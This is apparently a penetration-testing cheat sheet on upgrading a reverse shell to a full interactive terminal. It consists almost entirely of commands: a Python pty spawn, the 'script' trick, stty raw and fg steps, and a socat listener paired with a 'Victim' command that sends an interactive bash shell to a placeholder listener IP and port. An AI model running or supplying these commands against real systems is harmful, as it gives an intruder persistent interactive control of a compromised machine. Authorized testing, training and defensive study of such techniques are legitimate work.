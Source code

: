 # Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
In reverse shell  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
```
stty raw -echo  
fg  
```

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
